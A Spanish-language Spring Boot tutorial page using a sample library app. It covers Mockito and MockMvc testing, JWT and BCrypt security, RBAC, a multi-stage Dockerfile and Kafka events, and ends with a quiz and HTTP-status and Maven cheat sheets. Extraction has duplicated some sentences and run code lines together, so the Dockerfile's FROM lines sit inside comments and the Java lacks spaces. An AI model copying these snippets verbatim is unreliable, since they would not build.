@Mock genera un doble simulado del repositorio sin tocar la base de datos, y @InjectMocks inyecta los mocks automáticamente en la instancia real del servicio bajo prueba en BiblioTech.
13.2 Definición de Stubs (when) y Verificaciones (verify)
when(...).thenReturn(...) fija el comportamiento esperado, y verify(...) certifica que las interacciones ocurrieron con los parámetros exactos y el número de veces requerido.
A diferencia de las pruebas unitarias puras, las pruebas de integración web validan la capa de transporte: enrutamiento de peticiones, serialización JSON, validaciones @Valid y códigos de estado. Aquí aprenderás a utilizar @WebMvcTest con MockMvc para simular peticiones HTTP en milisegundos, junto con técnicas profesionales de depuración y análisis de logs en Spring Boot.
14.1 Slice Testing Web con @WebMvcTest
14.1 Arquitectura de Pruebas con Spring Test: Tests Integrales vs Slice Tests (@WebMvcTest y @DataJpaTest)
@WebMvcTest inicializa únicamente la capa web de Spring MVC (controladores, filtros y serializadores) sin levantar el contexto completo ni la capa de persistencia.
El módulo Spring Test (incluido en spring-boot-starter-test) provee un marco exhaustivo para ejecutar pruebas automáticas con distintos niveles de granularidad:
Tests Integrales de Extremo a Extremo con @SpringBootTest: Arranca el ApplicationContext completo con todos los beans, datasources, filtros de seguridad y capas activas. Es la validación más cercana al comportamiento de producción, pero la más pesada y lenta de ejecutar en pipelines de CI/CD.
Pruebas de Corte Web con @WebMvcTest: Inicializa exclusivamente la capa web de Spring MVC (controladores @RestController, filtros, validadores Bean Validation y serializadores Jackson), ignorando los servicios y repositorios. Permite verificar en milisegundos que los endpoints respondan con los códigos de estado semánticos (200, 201, 400, 404), cabeceras y estructura JSON correctos.
Pruebas de Persistencia con @DataJpaTest: Inicializa exclusivamente el subsistema JPA (Hibernate, entidades, interfaces JpaRepository y TestEntityManager), configurando por defecto una base de datos en memoria (H2). Cada método de test es transaccional por defecto y ejecuta un rollback automático al concluir, garantizando aislamiento total entre pruebas.
14.2 Peticiones y Aserciones JSON con MockMvc
Permite simular llamadas HTTP reales y validar códigos de estado y nodos JSON con jsonPath.
14.3 Sustitución de Servicios con @MockBean
Reemplaza el servicio real en el contexto de Spring MVC por un mock gestionado por Mockito.
Diagnóstico de Fallos de Arranque (FailureAnalyzer):
Cuando la aplicación falla al iniciar por dependencias circulares o propiedades ausentes, ejecutar con la bandera --debug para activar el ConditionEvaluationReport y analizar los mensajes de FailureAnalyzer (bloque "APPLICATION FAILED TO START").
Breakpoints Condicionales en el IDE:
Pausar el hilo de ejecución solo cuando se cumpla una condición booleana específica (ej. monto < 0 || id == 999L), evitando detener el depurador en cientos de llamadas válidas concurrentes.
Evaluación de Expresiones al Vuelo:
Permite inspeccionar y alterar variables en memoria durante la pausa de ejecución sin reiniciar el servidor para validar hipótesis de corrección.
Bloque 6: Seguridad y Despliegue

Figura 7: Contenido del Bloque 6 — Autenticación y autorización mediante JWT y contenedorización de aplicaciones con Docker.
Objetivos de Aprendizaje — Bloque 6
Entender la anatomía de un JWT (Header, Payload, Signature).Configurar Spring Security en modo sin estado (SessionCreationPolicy.STATELESS).Escribir un Dockerfile multi-stage build optimizado para Spring Boot.Orquestar app + PostgreSQL con docker-compose.yml.
🔒 Conceptos Clave del Bloque 6 — Seguridad y Despliegue
Concepto
Definición Técnica y Ejemplo Práctico
Seguridad Stateless con JWT
Autenticación sin estado mediante tokens compactos (RFC 7519) divididos en tres partes: Header.Payload.Signature. El servidor valida la firma criptográfica en milisegundos sin consultar sesiones en memoria ni en base de datos (SessionCreationPolicy.STATELESS). Ejemplo: El cliente envía Authorization: Bearer eyJhbGci...; el filtro de Spring Security extrae el usuario y sus roles del token y autentica el contexto.
Hashing Criptográfico con BCrypt
Algoritmo adaptativo unidireccional para almacenamiento seguro de contraseñas. Incorpora una sal (*salt*) aleatoria para neutralizar tablas arcoíris y un factor de costo configurable contra ataques de fuerza bruta. Ejemplo: passwordEncoder.encode("secreto123") → genera $2a$10$vI8a7.... La validación se realiza mediante passwordEncoder.matches(raw, hash).
Control de Acceso Basado en Roles (RBAC)
Autorización granular a nivel de método o endpoint basada en roles y autoridades (@PreAuthorize). Si el usuario autenticado carece del rol exigido, Spring Security deniega la ejecución con HTTP 403 Forbidden. Ejemplo: @PreAuthorize("hasRole('ADMIN')") @DeleteMapping("/{id}") public ResponseEntity<Void> eliminar(...).
Docker Multi-Stage Builds
Técnica de empaquetado que separa el entorno de compilación (SDK completo con Maven) de la imagen final de ejecución (JRE mínimo en Alpine), reduciendo el tamaño del contenedor de ~800MB a <150MB y mitigando vulnerabilidades del SO. Ejemplo: FROM maven:3.9 AS build → genera `.jar`; FROM eclipse-temurin:21-jre-alpine → copia solo el `.jar` con COPY --from=build.
Orquestación con Docker Compose
Herramienta para coordinar aplicaciones multicontenedor mediante el archivo declarativo docker-compose.yml, enlazando la aplicación Spring Boot con sus bases de datos (PostgreSQL), colas o cachés en una red interna privada. Ejemplo: docker compose up -d arranca simultáneamente la base de datos PostgreSQL en el puerto 5432 y el backend de Spring Boot conectado automáticamente.
Microservicios: Comunicación Síncrona vs Asíncrona
Síncrona (REST): petición-respuesta bloqueante con acoplamiento temporal (si el destinatario no responde, la petición falla). Asíncrona (Event-Driven con Kafka / RabbitMQ): publicación de eventos desacoplada; los consumidores procesan los mensajes a su propio ritmo sin bloquear al emisor. Ejemplo: Tras cobrar un pedido, se emite un evento PedidoCreadoEvent en un tópico de Kafka para que Facturación y Notificaciones lo procesen en paralelo.
Ejemplo en BiblioTech: Tras formalizar un préstamo, se emite un evento LibroPrestadoEvent en el topic de Kafka bibliotech-prestamos para que los microservicios de Notificaciones y Analítica lo procesen en paralelo sin demorar la respuesta HTTP.
El ciclo de desarrollo culmina protegiendo la aplicación y empaquetándola para su distribución en la nube. Este tema enseña a implementar seguridad stateless con Spring Security y tokens JWT, hashing seguro con BCrypt, autorización basada en roles (RBAC), empaquetado multi-stage ultra ligero en Docker, y los fundamentos de integración en microservicios (síncronos vs asíncronos con Kafka/RabbitMQ).
💡Intuición para Principiantes: Seguridad Stateless y Microservicios (El billete de tren con código QR y la cocina del restaurante)
Seguridad y Microservicios suelen asustar a quienes entran por primera vez al mundo backend, pero sus principios fundamentales son muy intuitivos si los comparamos con situaciones cotidianas:
1. Seguridad Stateful (El guardarropa clásico) vs Stateless con JWT (El billete con código QR):
Antiguo (Stateful / Sesiones en memoria): Cuando hacías login, el servidor guardaba tus datos en su propia memoria RAM y te daba una cookie (JSESSIONID). ¿El problema? Si BiblioTech crece y tienes 5 servidores detrás de un balanceador de carga, si la segunda petición llega al servidor #2, ¡éste no sabe quién eres porque tu sesión está en la memoria del servidor #1!
Moderno (Stateless / JWT): Como un billete de tren de alta velocidad con código QR. El billete lleva impreso tu nombre, asiento y clase VIP (tus roles), sellado con una firma criptográfica matemática que nadie puede falsificar sin la clave secreta de la compañía. El revisor no necesita consultar ninguna base de datos central: escanea el código, valida la firma al milisegundo y te deja pasar. En Spring Boot, el cliente envía Authorization: Bearer <token> y el servidor valida el token sin tocar la base de datos ni consumir memoria en RAM (SessionCreationPolicy.STATELESS).
2. Síncrono vs Asíncrono en Microservicios (Llamada de teléfono vs Comanda de restaurante):
Comunicación Síncrona (REST): Como llamar por teléfono. El camarero llama al cocinero y se queda esperando al teléfono sin atender a nadie hasta que el cocinero descuelga y contesta. Si la línea se corta, todo el pedido fracasa.
Comunicación Asíncrona (Event-Driven con Kafka): El camarero escribe una comanda (LibroPrestadoEvent), la cuelga en el tablón de pedidos (Topic de Kafka bibliotech-prestamos) y continúa atendiendo a otros clientes al instante. La cocina y la barra de bebidas toman la comanda a su ritmo sin bloquear al camarero.
15.1 Seguridad Stateless con JWT
En una arquitectura REST stateless, el cliente obtiene un JWT firmado y lo transmite en cada solicitud subsiguiente dentro de la cabecera Authorization: Bearer <token>.
15.3 Prácticas de Seguridad: Hashing con BCrypt, RBAC (@PreAuthorize) y CORS
La seguridad empresarial en Spring Boot abarca múltiples capas defensivas indispensables:
La seguridad empresarial en Spring Boot abarca múltiples capas defensivas indispensables para la plataforma BiblioTech:
Hashing Criptográfico de Contraseñas con BCrypt:
Nunca se deben almacenar contraseñas en texto claro. BCryptPasswordEncoder incorpora una sal (salt) aleatoria única por credencial y un factor de trabajo (work factor) configurable:
@Bean
public PasswordEncoder passwordEncoder() {
return new BCryptPasswordEncoder(12);
}
Control de Acceso Basado en Roles (RBAC) con @PreAuthorize:
Al habilitar @EnableMethodSecurity en la configuración, los métodos de servicios y endpoints se protegen granularmente:
@PreAuthorize("hasRole('ADMIN')")
@DeleteMapping("/usuarios/{id}")
public ResponseEntity<Void> eliminarUsuario(@PathVariable Long id) { ... }
Al habilitar @EnableMethodSecurity en la configuración, los métodos de servicios y endpoints de BiblioTech se protegen granularmente:
@PreAuthorize("hasRole('BIBLIOTECARIO')")
@PostMapping("/api/v1/libros")
public ResponseEntity<LibroResponseDTO> registrarLibro(@Valid @RequestBody LibroRequestDTO dto) { ... }
@PreAuthorize("hasAnyRole('GERENTE', 'AUDITOR') or #username == authentication.name")
@GetMapping("/reportes/{username}")
public ReporteDTO verReporte(@PathVariable String username) { ... }
Protección CORS y CSRF:
En APIs REST desacopladas sin estado (stateless) autenticadas por JWT en cabeceras HTTP, se desactiva CSRF (csrf.disable()) y se define una política estricta con CorsConfigurationSource permitiendo únicamente los orígenes y métodos legítimos.
En APIs REST desacopladas sin estado (stateless) autenticadas por JWT en cabeceras HTTP, se desactiva CSRF (csrf.disable()) y se define una política estricta con CorsConfigurationSource permitiendo únicamente los orígenes frontend y métodos legítimos.
15.4 Dockerfile Multi-Stage Optimizado
# ── ETAPA 1: Compilación (Build) ──────────────────────────FROM maven:3.9-eclipse-temurin-21-alpine AS builder
WORKDIR /app
COPY pom.xml .
RUN mvn dependency:go-offline -B
COPY src ./src
RUN mvn clean package -DskipTests
# ── ETAPA 2: Imagen Final Ligera ──────────────────────────FROM eclipse-temurin:21-jre-alpine
WORKDIR /app
RUN addgroup -S appgroup && adduser -S appuser -G appgroup
USER appuser
COPY --from=builder /app/target/*.jar app.jar
EXPOSE 8080
ENTRYPOINT ["java", "-jar", "app.jar"]
15.5 Comunicación en Arquitecturas de Microservicios: Síncrona vs Asíncrona
Al modularizar un sistema en microservicios, la estrategia de integración determina la disponibilidad, tolerancia a fallos y acoplamiento:
Al modularizar BiblioTech en un ecosistema de microservicios (Catálogo, Préstamos, Notificaciones y Estadísticas), la estrategia de integración determina la disponibilidad, tolerancia a fallos y acoplamiento:
Criterio
Comunicación Síncrona (REST / OpenFeign)
Comunicación Asíncrona (Kafka / RabbitMQ)
Paradigma
Petición / Respuesta bloqueante sobre HTTP.
Basado en eventos (Event-Driven) con colas y topics (Pub/Sub).
Basado en eventos (Event-Driven) con topics Pub/Sub.
Tecnologías Spring
RestClient, WebClient, @FeignClient.
Spring for Apache Kafka (KafkaTemplate, @KafkaListener), Spring AMQP.
Acoplamiento Temporal
Alto: Emisor y receptor deben estar disponibles en el instante.
Nulo: El emisor publica el evento en el broker y prosigue sin bloquearse.
Resiliencia a Caídas
Riesgo de cascada; exige Circuit Breaker (Resilience4j).
Alta: Los mensajes permanecen retenidos hasta la recuperación del consumidor.
Alta: Los mensajes permanecen retenidos en el topic hasta la recuperación del consumidor.
Casos de Uso Típicos
Consultas directas en tiempo real donde la respuesta inmediata es crítica.
Procesamiento de pagos, envío de emails, sincronización de catálogos y patrón Saga.
Casos en BiblioTech
Consulta puntual de disponibilidad de un libro en tiempo real.
Publicación de LibroPrestadoEvent para envío de emails de confirmación y actualización de estadísticas.
package com.bibliotech.event;
import org.springframework.kafka.core.KafkaTemplate;
import org.springframework.stereotype.Service;
import java.time.Instant;
// 1. Evento inmutable de dominio emitido por BiblioTechpublic recordLibroPrestadoEvent(
Long prestamoId,
Long libroId,
Long usuarioId,
Instant fechaPrestamo
) {}
// 2. Productor de eventos asíncrono sobre Apache Kafka@Servicepublic classPrestamoEventPublisher {
private finalKafkaTemplate<String, LibroPrestadoEvent> kafkaTemplate;
publicPrestamoEventPublisher(KafkaTemplate<String, LibroPrestadoEvent> kafkaTemplate) {
this.kafkaTemplate = kafkaTemplate;
}
public voidpublicarEventoPrestamo(LibroPrestadoEvent evento) {
// Publica en el topic 'bibliotech-prestamos' sin bloquear la respuesta al usuario
kafkaTemplate.send("bibliotech-prestamos", String.valueOf(evento.libroId()), evento);
}
}
Test de Autoevaluación 360° Interactivo
Pon a prueba tu asimilación de los conceptos técnicos y filosóficos del curso. Selecciona tu respuesta y presiona "Comprobar respuesta" para ver el desglose explicativo.
Un cliente realiza una petición POST a /api/v1/libros y el recurso se crea con éxito en la base de datos. ¿Qué código HTTP debe retornar el servidor según el estándar REST?
200 OK201 Created204 No Content202 Accepted
Necesitas actualizar únicamente el precio de un libro (id=5) sin enviar el resto de sus atributos. ¿Cuál es el verbo HTTP semánticamente correcto?
POSTPUTPATCHUPDATE
Un usuario envía un JWT válido (está autenticado), pero intenta acceder a un endpoint reservado para administradores y no tiene el rol necesario. ¿Qué código HTTP debe devolver la API?
401 Unauthorized403 Forbidden404 Not Found400 Bad Request
¿Cuál es la Regla de Oro sobre las dependencias en una arquitectura en capas?
Las dependencias solo van hacia abajo (Presentación → Negocio → Datos). Datos nunca conoce a Negocio.Datos puede llamar a Presentación para notificar cambios en tiempo real mediante WebSockets.Presentación puede saltarse Negocio si la consulta es de solo lectura y no altera el estado.Las tres capas pueden llamarse libremente mediante inyección bidireccional.
¿Cuál de las siguientes cadenas representa un fragmento JSON sintácticamente válido?
{ precio: 29.99 } (sin comillas en clave){ 'precio': 29.99 } (comillas simples){ "precio": 29.99, } (con trailing comma final){ "precio": 29.99 } (comillas dobles en clave, número sin comillas)
Al deserializar un array JSON a una lista genérica como List<Libro> con Jackson, ¿por qué es necesario utilizar new TypeReference<List<Libro>>(){}?
Porque el borrado de tipos (Type Erasure) de Java elimina los genéricos en compilación y Jackson necesita retener el tipo mediante subclase anónima.Porque las listas de Java no implementan Serializable por defecto.Porque Jackson solo soporta arreglos nativos Libro[] y no colecciones.Para forzar a Jackson a trabajar de manera asíncrona sin bloquear hilos.
Si ejecutas en tu terminal el comando mvn package, ¿qué ocurre con los tests unitarios del proyecto?
No se ejecutan, a menos que uses explícitamente mvn test.Se ejecutan obligatoriamente antes de empaquetar, porque la fase test precede a package en el ciclo de vida.Se ejecutan únicamente si hay cambios no commiteados en git.Se ejecutan después de generar el archivo .jar para verificar su integridad.
¿Por qué es peligroso colocar la anotación @Data de Lombok sobre entidades JPA con relaciones bidireccionales?
Porque impide a Hibernate acceder a los atributos mediante reflexión.Porque borra automáticamente el constructor vacío requerido por JPA.Porque genera equals(), hashCode() y toString() automáticos que se llaman en recursión mutua infinita (StackOverflowError).Porque causa que los campos marcados como LAZY se vuelvan EAGER forzosamente.
¿Cuál es el principal problema de instanciar dependencias en una clase mediante new ServicioConcreto()?
Que la máquina virtual Java penaliza el rendimiento de new frente a la reflexión.Acoplamiento rígido a una clase concreta e imposibilidad de mockear la dependencia en pruebas unitarias.Que new no es compatible con el recolector de basura de Java 17.Que obliga a implementar la interfaz Serializable.
¿Cuál es la diferencia técnica entre @Controller y @RestController en Spring?
@RestController es una anotación compuesta por @Controller + @ResponseBody; serializa el retorno directamente a JSON/XML en el cuerpo HTTP.@Controller soporta métodos asíncronos y @RestController es estrictamente síncrono.@Controller solo admite peticiones GET y @RestController admite todos los verbos.No existe diferencia técnica, son sinónimos introducidos en versiones distintas.
¿Cuál es el scope por defecto de los Beans en Spring y qué restricción impone a su diseño?
Prototype: deben tener siempre un constructor sin argumentos.Singleton: solo hay una instancia para toda la app, por lo que deben ser stateless (sin estado mutable compartido).Request: deben reinicializarse en cada llamada a la base de datos.Session: deben persistirse en una base de datos Redis externa.
Tienes dos implementaciones de la interfaz PagoService: StripePagoService y PaypalPagoService. ¿Cómo fuerzas en el constructor a inyectar específicamente PaypalPagoService?
Añadiendo @Lazy en la clase PaypalPagoService.Cambiando el nombre de la variable de interfaz a paypalPagoService.Utilizando @Qualifier("paypalPagoService") junto al parámetro del constructor.Eliminando @Component de StripePagoService.
En una relación @OneToMany entre Autor y Libro, ¿por qué es altamente recomendable usar fetch = FetchType.LAZY?
Para evitar cargar innecesariamente en memoria listas enteras de libros y prevenir el antipatrón de rendimiento de consultas N+1.Porque JPA prohíbe el uso de EAGER en relaciones uno a muchos.Para permitir que los libros se borren en cascada automáticamente.Para que la base de datos ejecute triggers antes de guardar.
¿Cuál es el beneficio primordial de usar el patrón DTO en lugar de exponer entidades JPA directamente en los controladores?
Acelera las consultas SQL al compilar a bytecode más pequeño.Permite omitir la configuración de perfiles en application.properties.Hace que las transacciones sean idempotentes sin usar @Transactional.Desacopla la API del esquema relacional, protege campos confidenciales y evita bucles de serialización.
¿Cuál es la forma estándar y limpia en Spring Boot para capturar excepciones de negocio sin llenar los controladores de bloques try-catch?
Crear una clase anotada con @RestControllerAdvice y métodos con @ExceptionHandler.Usar bloques try-catch en el método main de la clase @SpringBootApplication.Añadir throws Exception en la firma de todos los métodos de los controladores.Configurar un servlet filter clásico en web.xml.
En un test unitario con Mockito, ¿cuál es la diferencia entre @Mock y @InjectMocks?
@Mock se usa para servicios y @InjectMocks solo para controladores.@Mock crea un objeto simulado vacío; @InjectMocks crea la clase real a probar e inyecta en ella los mocks declarados.@Mock conecta con una base de datos H2 en memoria y @InjectMocks no.Son equivalentes y pueden intercambiarse sin consecuencias.
En una API REST asegurada con Spring Security y tokens JWT bajo política SessionCreationPolicy.STATELESS, ¿cómo valida el backend cada llamada?
El cliente envía Authorization: Bearer <token> en cada petición, y un filtro (OncePerRequestFilter) verifica la firma criptográfica.El servidor almacena el token en la sesión HTTP en RAM y comprueba el sessionId.El cliente debe enviar usuario y contraseña en texto plano en cada llamada POST.La base de datos valida automáticamente el token en cada comando SQL.
Cheatsheet y Referencia Rápida
Catálogo Completo de Códigos de Estado HTTP (RFC 9110 / IANA)
A continuación se listan todos los códigos de estado HTTP estandarizados por la IANA y las especificaciones RFC (RFC 9110, RFC 7231, RFC 6585 y WebDAV RFC 4918). Se destacan en negrita aquellos de uso habitual y crítico en el desarrollo de APIs REST profesionales:
Código
Nombre Oficial
Familia
Significado Técnico y Cuándo Utilizarlo
100
Continue
1xx Informativo
El servidor ha recibido las cabeceras iniciales; el cliente debe continuar enviando el cuerpo de la petición.
101
Switching Protocols
1xx Informativo
El emisor solicitó cambiar de protocolo (ej. actualización a WebSocket bidireccional mediante Upgrade).
102
Processing
1xx Informativo
(WebDAV) El servidor ha aceptado la petición completa pero continúa procesándola; previene que el cliente agote el tiempo.
103
Early Hints
1xx Informativo
Retorna cabeceras preliminares (ej. Link: <...>; rel=preload) mientras el servidor prepara la respuesta final.
200Habitual
OK
2xx Éxito
Petición procesada con éxito. Es la respuesta estándar para GET con payload devuelto, o PUT/PATCH que retorna la entidad actualizada.
201Habitual
Created
2xx Éxito
Recurso creado satisfactoriamente como resultado de un POST. Es una buena práctica incluir la cabecera Location con la URL del nuevo recurso y el objeto creado en el cuerpo.
202
Accepted
2xx Éxito
Petición aceptada para procesamiento asíncrono en segundo plano (Batch/Workers); no garantiza que el resultado final sea exitoso.
203
Non-Authoritative Information
2xx Éxito
Petición procesada con éxito, pero los metadatos o cabeceras devueltas han sido modificados o sintetizados por un proxy o intermediario respecto a la respuesta original del servidor de origen (RFC 9110).
204Habitual
No Content
2xx Éxito
Operación exitosa pero deliberadamente sin cuerpo en la respuesta. Estándar para operaciones DELETE o PUT/PATCH donde el cliente no requiere datos de retorno.
205
Reset Content
2xx Éxito
La acción se ejecutó con éxito y el cliente debe resetear la vista o formulario que originó la petición.
206
Partial Content
2xx Éxito
Se devuelve solo un fragmento del recurso solicitado, utilizado en descargas pausables o streaming mediante la cabecera Range.
207
Multi-Status
2xx Éxito
(WebDAV) Respuesta XML que contiene múltiples códigos de estado independientes para distintas sub-operaciones.
208
Already Reported
2xx Éxito
(WebDAV) Indica que los miembros de una colección vinculada ya han sido enumerados en una parte previa de la respuesta.
226
IM Used
2xx Éxito
El servidor ha cumplido una petición GET manipulando la instancia mediante codificación delta de diferencias.
300
Multiple Choices
3xx Redirección
La petición dispone de múltiples representaciones posibles que el cliente puede seleccionar.
301Habitual
Moved Permanently
3xx Redirección
El recurso ha cambiado de URI de forma definitiva. Los navegadores y motores de búsqueda cachean y actualizan automáticamente el enlace hacia la nueva dirección en Location.
302Habitual
Found (Moved Temp.)
3xx Redirección
Redirección temporal histórica. Indica que el recurso reside transitoriamente en otra URI, pero el cliente debe seguir usando la URI original en peticiones futuras.
303
See Other
3xx Redirección
Redirige al cliente a obtener el recurso de destino realizando obligatoriamente un GET (patrón Post/Redirect/Get).
304Habitual
Not Modified
3xx Redirección
Caché condicional del cliente. Indica que el recurso no ha cambiado desde la fecha enviada en If-Modified-Since o el hash If-None-Match (ETag). Ahorra ancho de banda no enviando el cuerpo.
305
Use Proxy
3xx Redirección
Obsoleto por motivos de seguridad; indicaba que el recurso debía solicitarse a través de un proxy específico.
307
Temporary Redirect
3xx Redirección
Redirección temporal estricta: a diferencia de 302, garantiza que el cliente no debe cambiar el método HTTP al seguir el enlace (un POST sigue siendo POST).
308
Permanent Redirect
3xx Redirección
Redirección permanente estricta: garantiza que el cliente no debe alterar el método HTTP original.
400Habitual
Bad Request
4xx Error Cliente
Petición malformada o sintácticamente inválida. Ocurre por JSON corrupto, tipos de datos incompatibles o violación de restricciones declarativas de Bean Validation (@Valid, @NotNull, etc.).
401Habitual
Unauthorized
4xx Error Cliente
Falta autenticación válida ("¿Quién eres?"). La petición no incluye credenciales, o el token JWT es inválido, ha expirado o está ausente en la cabecera Authorization: Bearer.
402
Payment Required
4xx Error Cliente
Reservado por el estándar HTTP para futuros sistemas de tarificación digital o pasarelas de pago.
403Habitual
Forbidden
4xx Error Cliente
Falta autorización o permisos ("Sé quién eres, pero no puedes pasar"). El usuario está autenticado, pero su rol o privilegios (RBAC, @PreAuthorize) no le autorizan a acceder a este recurso.
404Habitual
Not Found
4xx Error Cliente
Recurso no encontrado. La URL no mapea ningún endpoint existente o el identificador solicitado en la base de datos no existe (ej. EntityNotFoundException).
405
Method Not Allowed
4xx Error Cliente
El método HTTP utilizado no está soportado para esta ruta (ej. enviar POST a un endpoint configurado solo para GET). La cabecera Allow lista los métodos permitidos.
406
Not Acceptable
4xx Error Cliente
El servidor no puede generar una respuesta compatible con el formato requerido por el cliente en la cabecera Accept (ej. cliente pide XML pero solo se produce JSON).
407
Proxy Auth Required
4xx Error Cliente
Similar a 401, pero el cliente debe autenticarse previamente ante un servidor proxy intermedio.
408
Request Timeout
4xx Error Cliente
El servidor decidió cerrar la conexión porque el cliente tardó demasiado tiempo en transmitir la petición completa.
409Habitual
Conflict
4xx Error Cliente
Conflicto con el estado actual del recurso. Casos típicos: intento de registrar un usuario con un email que ya existe (violación de UNIQUE) o colisión de concurrencia optimista (@Version).
410
Gone
4xx Error Cliente
El recurso ha sido eliminado permanentemente de forma intencionada y no existe ninguna dirección de redirección.
411
Length Required
4xx Error Cliente
El servidor rechaza procesar la petición sin una cabecera Content-Length definida.
412
Precondition Failed
4xx Error Cliente
Una o varias condiciones expresadas en las cabeceras condicionales del cliente (ej. If-Match) evaluaron a falso en el servidor.
413
Payload Too Large
4xx Error Cliente
El cuerpo de la petición excede el tamaño límite admitido por el servidor (ej. subida de archivo que supera spring.servlet.multipart.max-file-size).
414
URI Too Long
4xx Error Cliente
La URI solicitada es más larga de lo que el servidor está dispuesto a interpretar (frecuente en formularios GET con demasiados parámetros).
415
Unsupported Media Type
4xx Error Cliente
El formato del cuerpo enviado en Content-Type no está soportado (ej. enviar texto plano o XML a un endpoint que exige application/json).
416
Range Not Satisfiable
4xx Error Cliente
El rango especificado en la cabecera Range no se puede cumplir (ej. pedir bytes más allá del tamaño total del archivo).
417
Expectation Failed
4xx Error Cliente
La expectativa indicada en la cabecera Expect no puede ser satisfecha por el servidor.
418
I'm a teapot
4xx Error Cliente
Broma RFC 2324 (Hyper Text Coffee Pot Control Protocol); devuelto a menudo en APIs como easter egg o pruebas de pentesting.
421
Misdirected Request
4xx Error Cliente
La petición fue dirigida a un servidor que no es capaz de producir una respuesta adecuada para esa conexión.
422Habitual
Unprocessable Entity
4xx Error Cliente
Error semántico de negocio. La sintaxis del JSON es válida y los tipos coinciden, pero los datos violan reglas semánticas de dominio (ej. saldo insuficiente o fecha de finalización previa a fecha de inicio).
423
Locked
4xx Error Cliente
(WebDAV) El recurso al que se intenta acceder o modificar se encuentra bloqueado actualmente.
424
Failed Dependency
4xx Error Cliente
(WebDAV) La petición falló porque dependía del éxito de otra acción previa que no prosperó.
425
Too Early
4xx Error Cliente
El servidor no está dispuesto a procesar una petición que podría ser repetida en conexiones TLS tempranas (0-RTT).
426
Upgrade Required
4xx Error Cliente
El cliente debe actualizarse a un protocolo superior indicado en la cabecera Upgrade antes de continuar.
428
Precondition Required
4xx Error Cliente
El servidor exige que la petición sea condicional para prevenir el problema de la "actualización perdida" (lost update).
429Habitual
Too Many Requests
4xx Error Cliente
Límite de tasa (Rate Limiting) excedido. El cliente ha enviado demasiadas peticiones en un intervalo de tiempo dado. Habitual en APIs públicas protegidas por Bucket4j o Spring Cloud Gateway. Debe incluir Retry-After.
431
Request Header Too Large
4xx Error Cliente
El servidor no procesará la petición porque una cabecera individual o el conjunto de todas las cabeceras excede el límite permitido.
451
Unavailable For Legal
4xx Error Cliente
El recurso ha sido bloqueado o retirado como consecuencia de una demanda o requerimiento legal/jurídico.
500Habitual
Internal Server Error
5xx Error Servidor
Error interno no controlado en el servidor. Ocurre ante una excepción Java no capturada (ej. NullPointerException) o fallo inesperado del runtime backend.
501
Not Implemented
5xx Error Servidor
El servidor no reconoce el método de la petición o carece de la capacidad funcional para implementarlo.
502Habitual
Bad Gateway
5xx Error Servidor
Respuesta inválida de servidor upstream. Ocurre cuando un reverse proxy o API Gateway (Nginx, Kong, Spring Cloud Gateway) intenta conectarse al microservicio backend y este responde de forma anómala o cae.
503Habitual
Service Unavailable
5xx Error Servidor
Servidor temporalmente fuera de servicio. La aplicación está saturada por sobrecarga de tráfico o se encuentra en mantenimiento programado. Suele acompañarse de la cabecera Retry-After.
504Habitual
Gateway Timeout
5xx Error Servidor
Tiempo de espera agotado en gateway. El reverse proxy o balanceador de carga no recibió una respuesta a tiempo del servicio backend interno antes del timeout configurado.
505
HTTP Version Not Supported
5xx Error Servidor
El servidor no soporta o rehúsa admitir la versión del protocolo HTTP utilizada en la petición.
506
Variant Also Negotiates
5xx Error Servidor
Error de configuración interna: la negociación de contenido transparente produce una referencia circular.
507
Insufficient Storage
5xx Error Servidor
(WebDAV) El servidor no puede almacenar la representación necesaria para completar con éxito la petición.
508
Loop Detected
5xx Error Servidor
(WebDAV) El servidor canceló la operación al detectar un bucle infinito al procesar una petición con "Depth: infinity".
510
Not Extended
5xx Error Servidor
Se requieren extensiones adicionales no soportadas para que el servidor pueda procesar la solicitud.
511
Network Auth Required
5xx Error Servidor
El cliente necesita autenticarse ante la infraestructura de red para obtener acceso (típico de portales cautivos en redes públicas/WiFi).
Anotaciones Imprescindibles de Spring y Spring Boot
Anotación
Capa / Propósito
Efecto Técnico
@SpringBootApplication
Configuración Global
Combina @Configuration, @EnableAutoConfiguration y @ComponentScan.
@RestController
Presentación
Combina @Controller y @ResponseBody. Serializa retornos a JSON.
@Service
Negocio
Registra un Bean en el contenedor IoC semánticamente destinado a lógica de negocio.
@Repository
Persistencia
Registra un Bean de datos y habilita traducción automática de excepciones JPA a Spring.
@Primary
Core IoC
Establece la implementación por defecto cuando existen múltiples candidatos.
@Qualifier
Core IoC
Desambigua en el punto de inyección especificando el nombre exacto del Bean.
@Lazy
Core IoC
Pospone la instanciación del Bean hasta el primer momento en que sea solicitado.
@Transactional
Negocio / Persistencia
Gestiona el ciclo de vida de la transacción SQL con commit y rollback automáticos.
@RestControllerAdvice
Manejo de Errores
Interceptor global de excepciones lanzadas por cualquier controlador.
@ExceptionHandler
Manejo de Errores
Declara qué método captura qué clase de excepción (ej. ResourceNotFoundException).
Fases del Ciclo de Vida de Maven
Fase
Comando
Qué hace
validate
mvn validate
Verifica que el pom.xml sea sintácticamente correcto.
compile
mvn compile
Compila el código fuente Java de src/main/java a target/classes.
test
mvn test
Ejecuta las pruebas unitarias en src/test/java con Surefire.
package
mvn package
Empaqueta el código compilado en un archivo ejecutable .jar.
install
mvn install
Copia el .jar generado en tu repositorio local (~/.m2/repository).
clean
mvn clean
Elimina la carpeta target/ con todos los binarios y compilados previos.